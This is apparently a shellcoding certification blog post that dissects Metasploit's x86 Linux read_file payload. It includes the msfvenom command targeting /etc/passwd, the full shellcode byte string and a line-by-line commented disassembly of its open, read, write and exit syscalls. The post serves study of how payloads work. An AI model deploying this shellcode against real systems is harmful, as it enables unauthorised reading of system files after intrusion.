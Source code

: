 # Analyze: Read File

# Create shellcode

```bash
msfvenom -p linux/x86/read_file -f c PATH=/etc/passwd
```

The output is shellcode that will read the file /etc/passwd and print to STDOUT.

# Analysis

## Disassemble
```bash
echo -n "\xeb\x36\xb8\x05\x00\x00\x00\x5b\x31\xc9\xcd\x80\x89\xc3\xb8\x03\x00\x00\x00\x89\xe7\x89\xf9\xba\x00\x10\x00\x00\xcd\x80\x89\xc2\xb8\x04\x00\x00\x00\xbb\x01\x00\x00\x00\xcd\x80\xb8\x01\x00\x00\x00\xbb\x00\x00\x00\x00\xcd\x80\xe8\xc5\xff\xff\xff\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64\x00" | ndisasm -u -
```

## Disassembled Assembly

```assembly
00000000  EB36              jmp short 0x38
00000002  B805000000        mov eax,0x5
00000007  5B                pop ebx
00000008  31C9              xor ecx,ecx
0000000A  CD80              int 0x80
0000000C  89C3              mov ebx,eax
0000000E  B803000000        mov eax,0x3
00000013  89E7              mov edi,esp
00000015  89F9              mov ecx,edi
00000017  BA00100000        mov edx,0x1000
0000001C  CD80              int 0x80
0000001E  89C2              mov edx,eax
00000020  B804000000        mov eax,0x4
00000025  BB01000000        mov ebx,0x1
0000002A  CD80              int 0x80
0000002C  B801000000        mov eax,0x1
00000031  BB00000000        mov ebx,0x0
00000036  CD80              int 0x80
00000038  E8C5FFFFFF        call 0x2
0000003D  2F                das
0000003E  657463            gs jz 0xa4
00000041  2F                das
00000042  7061              jo 0xa5
00000044  7373              jnc 0xb9
00000046  7764              ja 0xac
00000048  00                db 0x00
```

Here I will dissect the assembly piece by piece, followed by a commented version of the code in its entirety.


## Disassembly Review

The first command that is run jumps to the data section 

```assembly
00000000  EB36              jmp short 0x38  ; jmp to jump1
.
.
; <shellcode>
.
.
jump1:
00000038  E8C5FFFFFF        call 0x2    ; jump to main
                                        ; address of 0x3D pushed to top of stack
0000003D  2F6574632F706173737764        ; /etc/passwd
00000048  00                db 0x00     ; NULL terminator
```

It it will jump to `00000038` which calls back to the beginning of the shellcode. Importantly, this call places the address of the string "/etc/passwd" on the stack that would traditionally be used as a return address for a call, however, I will use it later to as the path of the file to read.

```assembly
00000038  E8C5FFFFFF        call 0x2    ; jump to main
                                        ; address of 0x3D pushed to top of stack
0000003D  2F6574632F706173737764        ; /etc/passwd
00000048  00                db 0x00     ; NULL terminator
```

Next `0x5` is moved into `eax`, which in the context of a [syscall()](https://man7.org/linux/man-pages/man2/syscall.2.html) is [open()](https://man7.org/linux/man-pages/man2/open.2.html) which has a function definition of:

```c
int open(const char *pathname, int flags);
```

We then pop the address of our string off the stack into `ebx` to be used as the first argument in open(), and clear out `ecx` that will be used as the flags argument. 

The syscall() is executed using `int 0x80` and the return value is moved into `ebx` which is a pointer to the opened file (in this case /etc/passwd).

```assembly
00000002  B805000000        mov eax,0x5     ; open()
00000007  5B                pop ebx         ; <addr> 0x3D (filename from stack) 
00000008  31C9              xor ecx,ecx     ; clear ecx
0000000A  CD80              int 0x80        ; call open() 
0000000C  89C3              mov ebx,eax     ; ebx now holds file descriptor
```

Then another syscall() will be prepared to execute [read()](https://man7.org/linux/man-pages/man2/read.2.html) which has a function definition of:

```c
ssize_t read(int fd, void *buf, size_t count);
```

The read() syscall index is `0x3` and will be moved into `eax`. 

Then the stack pointer is moved into `edi` and `edi` is moved into `ecx`, which will be used as the second parameter to the read() function. I'm not sure what the first assignment to `edi` is doing, it seems unnecessary. Perhaps it is for polymorphic reasons? In any event, since `ecx` holds a pointer to the stack, it will be used as the buffer to write the file data into. To be exact, data will be read from the target file (/etc/passwd) and it's contents will be written to the stack.

Then the value of `0x1000` or `4096` in decimal is moved into `edx` for the third parameter, which is the number of bytes to read.

Once the syscall is executed and the file data has been read, the number of bytes read will be returned in `eax`.

The assembly for these operations is here:

```assembly
0000000E  B803000000        mov eax,0x3     ; read() 
                                            ; man 2 read
                                            ; ssize_t read(int fd, void *buf, size_t count);
00000013  89E7              mov edi,esp     ; ??
00000015  89F9              mov ecx,edi     ; ptr to stack : returned file content will fill this buffer
00000017  BA00100000        mov edx,0x1000  ; buf = 4096
0000001C  CD80              int 0x80        ; call read()
0000001E  89C2              mov edx,eax     ; edx holds number of bytes returned from read()
```

At this point in time, the stack holds the data that was read from /etc/passwd and `eax` holds the number of bytes that was read from this file.

Now the `0x4` syscall is prepared. This corresponds to the [write()](https://man7.org/linux/man-pages/man2/write.2.html) function that looks liks this:
```c
ssize_t write(int fd, const void *buf, size_t count);
```

The first parameter is loaded into `ebx` and is a `1` as this is a reference to the STDOUT file descriptor on linux. 

The second parameter is still `ecx` which is a pointer to the stack. 

The final parameter `edx` was the return value from the read() command, and is the number of bytes to write. 

This assembly is taking the data read from /etc/passwd, which is currently stored on the stack, and outputs it to STDOUT (the console):

```assembly
00000020  B804000000        mov eax,0x4     ; write()
00000025  BB01000000        mov ebx,0x1     ; 1 = stdout (where to write output)
0000002A  CD80              int 0x80        ; call write() 
                                            ; NOTE: ecx still points to stack (buffer to write)



0000002C  B801000000        mov eax,0x1     ; cat /usr/include/i386-linux-gnu/asm/unistd_32.h | grep " 1$"
                                            ; man exit
                                            ; void exit(int status);
00000031  BB00000000        mov ebx,0x0     ; status = 0 = EXIT_SUCCESS
00000036  CD80              int 0x80        ; call exit()
```

## Disassembled (Cleaned and commented)

Here I have cleaned and commented the code in entirety.

```assembly
00000000  EB36              jmp short 0x38  ; jmp to jump1

main:
    ; cat /usr/include/i386-linux-gnu/asm/unistd_32.h | grep  5$    
    ; open()
    ; int open(const char *pathname, int flags);
00000002  B805000000        mov eax,0x5 
00000007  5B                pop ebx         ; <addr> 0x3D (filename from stack) 
00000008  31C9              xor ecx,ecx     ; clear ecx
0000000A  CD80              int 0x80        ; call open() 



0000000C  89C3              mov ebx,eax     ; ebx now holds file descriptor
0000000E  B803000000        mov eax,0x3     ; read() :cat /usr/include/i386-linux-gnu/asm/unistd_32.h | grep " 3$"
                                            ; man 2 read
                                            ; ssize_t read(int fd, void *buf, size_t count);
00000013  89E7              mov edi,esp     
00000015  89F9              mov ecx,edi     ; ptr to stack : returned file content will fill this buffer
00000017  BA00100000        mov edx,0x1000  ; buf = 4096
0000001C  CD80              int 0x80        ; call read()





0000001E  89C2              mov edx,eax     ; edx holds number of bytes returned from read()
00000020  B804000000        mov eax,0x4     ; cat /usr/include/i386-linux-gnu/asm/unistd_32.h | grep " 4$"
                                            ; write()
                                            ; man 2 write
                                            ; ssize_t write(int fd, const void *buf, size_t count);
00000025  BB01000000        mov ebx,0x1     ; 1 = stdout (where to write output)
0000002A  CD80              int 0x80        ; call write() 
                                            ; NOTE: ecx still points to stack (buffer to write)



0000002C  B801000000        mov eax,0x1     ; cat /usr/include/i386-linux-gnu/asm/unistd_32.h | grep " 1$"
                                            ; man exit
                                            ; void exit(int status);
00000031  BB00000000        mov ebx,0x0     ; status = 0 = EXIT_SUCCESS
00000036  CD80              int 0x80        ; call exit()



jump1:
00000038  E8C5FFFFFF        call 0x2    ; jump to main
                                        ; address of 0x3D pushed to top of stack
0000003D  2F6574632F706173737764        ; /etc/passwd
00000048  00                db 0x00     ; NULL terminator
```


<!-- 
## Libemu
https://github.com/buffer/libemu
```bash
echo -n "\xeb\x36\xb8\x05\x00\x00\x00\x5b\x31\xc9\xcd\x80\x89\xc3\xb8\x03\x00\x00\x00\x89\xe7\x89\xf9\xba\x00\x10\x00\x00\xcd\x80\x89\xc2\xb8\x04\x00\x00\x00\xbb\x01\x00\x00\x00\xcd\x80\xb8\x01\x00\x00\x00\xbb\x00\x00\x00\x00\xcd\x80\xe8\xc5\xff\xff\xff\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64\x00"  | sctest -S -s 10000 -vv -G msfvenom-linux-x86-exec.dot
``` -->



# Certification Requirements

This blog post has been created for completing the requirements of the SecurityTube/PentesterAcademy [x86 Assembly Language and Shellcoding on Linux (SLAE)](https://www.pentesteracademy.com/course?id=3) certification:

Student ID: PA-29350
